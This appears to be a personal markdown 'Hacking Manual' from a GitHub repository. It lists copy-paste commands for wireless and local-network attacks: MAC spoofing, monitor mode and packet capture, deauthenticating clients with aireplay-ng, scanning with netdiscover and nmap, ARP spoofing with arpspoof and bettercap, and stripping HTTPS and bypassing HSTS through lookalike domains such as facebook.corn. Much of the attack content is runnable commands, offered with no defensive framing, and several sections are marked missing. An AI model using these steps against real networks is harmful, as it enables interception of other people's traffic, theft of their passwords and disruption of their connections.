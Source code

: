 # Hacking Manual

## Wireless Attacks

## Preconnection Attack

This section describes the attacks possible before connecting to the network. We cannot do much if the network is encrypted using any security protocol but certainly we can disconnect devices on the network in most of the cases. Also, if the connection is open, we can check the packet contents (unencrypted) on Wireshark.

### Change the MAC Address

`sudo ifconfig wlan1 hw ether <changed-mac>`

### Going into monitor mode
`sudo ifconfig wlan1 down`<br />
`sudo iwconfig wlan1 mode monitor`<br />
`sudo ifconfig wlan1 up`

In case there errors, try killing all wireless services like network manager by<br />
`sudo airmon-ng check kill`

### Listening to all the wireless packets

`sudo airodump-ng wlan1`

#### Listening to all the packets on a particular network

`sudo airodump-ng --bssid <mac-address-gateway> --channel <channel-no> wlan1`

We also use --write <file-name> option to collect the packets. In particular, the cap file is very important.

### Disconnecting a client from the network

`sudo aireplay-ng --deauth <no-of-deauth-packets> -a <mac-address-gateway> -c <mac-address-client> wlan1`

## Gaining Access

This section describes what all we can do to gain access to a network.

### Cracking WEP

<missing>

### Cracking WPA/WPA2

The main differencd between WPA and WPA2 is the encryption algorithm. <br />
Before trying to crack this, it would be a great idea to check whether WPS is enabled.

#### Gain access with WPS

WPS is used by routers to connect to printers and other devices. Generally, authentication takes place using an 8 bit pin which is pretty easy to crack using brute-force. If WPS is enabled with a PUSH button, the following method won't work.

<missing>

#### Gain access without WPS or WPS with Push button

<missing>

## Post-Connection Attacks

### Discover the devices connected to the same network

#### Using netdiscover

`sudo netdiscover -r 192.168.1.1/24`<br />
This will give us all the clients connected to the same network.

#### Using nmap

This is a very great tool. This will give us a whole lot of information. <br />
We use zenmap, that is the GUI tool for nmap.

We put the target network as 192.168.1.1/24, all the possible IPs on the local subnet.
We have different scan options:
1. Ping Scan - It gives us all the devices on the network, theirs IPs and vendors (if possible).
2. Quick Scan - It also gives us the all the open ports on the client and services running on these ports (http, ssh, etc).
3. Quick Scan Plus - It gies us even more information. We'll be able to see the OS, the device type (mobile, laptop, etc) and discover the program running on the open port.

### Man In The Middle (MITM) Attack

#### ARP Spoofing

All the information from Client to Server and vice-versa will be visible to the MITM. This is possible only because ARP is not so secure.
Essentially, what we'll do is:
1. Make the router think that I am the client (Router's ARP Table will update itself).
2. Make the client (victim) think that I am the router (Client's ARP Table will update itself).

So, basically MITM will send an ARP Response saying that it is so-and-so in the network. And all the machines except the responses without even a request. Plus, they don't even verify whether we are the same IP (We are not and we believe us).

For client:<br />
`sudo arpspoof -i wlan0 -t 192.168.1.15 192.168.1.1`

For the router or gateway:<br />
sudo arpspoof -i wlan0 -t 192.168.1.1 192.168.1.15`

#### Using bettercap

bettercap is a more powerful utility.<br />
`sudo bettercap -iface wlan0`

With this command, we enter the bettercap shell.<br/>
Type `help` to get more information on modules.<br />
You will see only events.stream module running which essentially manages all the modules.

To get more information on modules, type `help <module>`.


##### net.probe and net.recon

`net.probe on` - This will turn on both the modules.<br />
Now, `net.show` will show a lot of data about devices on the network.

##### ARP Spoofing using bettercap

Check the help with `help arp.spoof`.<br />
To become the MITM:
1. `set arp.spoof.fullduplex true
2. `set arp.spoof.targets 192.168.1.15`
3. `arp.spoof on`

##### Capture all the data flowing on the target computer after ARP spoofing

`net.spoof on`
Now, we can see all the packets on the network.

##### Make a caplet file to execute all the above commands

Check out the folder with the spoof.cap file containing all the above commands and type:<br />
`sudo bettercap -iface wlan0 -caplet spoof.cap`

##### Bypass HTTPS

All the information like passwords are readable due to `http` protocol. So people came up with a solution `https` which provides SSL or TLS encryption to the data.
So, being a MITM, we downgrade `https` to `http` for the client (victim). And now, we can read the plaintext data of `http`. To do this, we'll have to use a tool call **SSL Strip**. We for now, we'll use a bettercap caplet. The already-existing caplet does not replace all `https` links with `http`. So we use a custom one - hstshijack.

Add `set net.spoof.local true` to the spoof.cap file. We are setting it because once we use the custom caplet, bettercap will think it's my password (and not show it on the screen) but it's not. By setting it, we can see all the data.

To check all the default caplets, type `caplets.show` in the bettercap shell. Now, use `hstshijack/hstshijack` in the same shell.

Now, use can check all the `https` data also. But note that if the victim computer already has the `https` website cached, then it won't work. Also, it won't work against very popular websites like facebook, twitter, etc. It does not work because they are using `HSTS`, which is much more tricky to bypass.

##### Bypass HSTS

Modern browsers are hard-coded to only load a list of `HSTS` websites over `https`.<br />
Solution: Replace all the links for HSTS with similar links to trick your browser.<br />
For example:<br />
facebook.com  -->  facebook.corn<br />
twitter.com   -->  twiter.com<br />
Note that this only works with the custom caplet file.

So how does it work?<br />
Check the code at hstshijack/hstshijack.cap.
There are the HSTS target networks we see and their replacements as above example. We can edit this as we want.
So, if someone types `google.co.in` (`http`) and then types facebook, then all the facebook.com links are replaced by facebook.corn links which are not identified as links for HSTS but render you the same page. Please note that this method only works if the person goes through a search engine, where the script can replace the links. If he/she types on the url directly, the browser knows that it has to load the `https` website for it.
